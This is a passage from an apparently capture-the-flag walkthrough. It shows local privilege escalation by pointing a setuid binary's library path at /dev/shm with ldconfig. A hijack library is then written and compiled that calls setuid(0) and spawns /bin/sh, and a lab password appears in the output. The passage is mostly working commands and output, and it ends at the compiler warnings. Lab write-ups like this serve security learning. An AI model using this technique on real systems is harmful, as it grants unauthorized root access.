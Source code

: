 Now, I’ll use `ldconfig` to add my path. `myexec` now is looking for libraries (including `libseclogin.so`) in `/dev/shm`:

```

genevieve@dab:/dev/shm$ ldconfig -f df.conf 
genevieve@dab:/dev/shm$ ldd /usr/bin/myexec 
        linux-vdso.so.1 =>  (0x00007ffcef9c8000)
        libseclogin.so => /dev/shm/libseclogin.so (0x00007fa94237b000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa941fb1000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fa94257d000)

```

And when I run it, my hello world executes:

```

genevieve@dab:/dev/shm$ myexec 
Enter password: s3cur3l0g1n
Password is correct

hello, world!

```

I can also change it back by running `ldconfig` with no arguments:

```

genevieve@dab:/dev/shm$ ldconfig
genevieve@dab:/dev/shm$ ldd /usr/bin/myexec 
        linux-vdso.so.1 =>  (0x00007ffdeabf9000)
        libseclogin.so => /usr/lib/libseclogin.so (0x00007fa8bcd00000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa8bc936000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fa8bcf02000)

```

#### Shell

Now, I can update this code to give me a shell:

```

genevieve@dab:/dev/shm$ cat .a.c 
void seclogin() {
    setuid(0);
    setgid(0);
    execl("/bin/sh","sh",0);
}

```

I’ll compile (warnings are ok):

```

genevieve@dab:/dev/shm$ gcc -shared -fPIC /dev/shm/.a.c -o /dev/shm/libseclogin.so
/dev/shm/.a.c: In function ‘seclogin’:
/dev/shm/.a.c:2:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/dev/shm/.a.c:3:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
```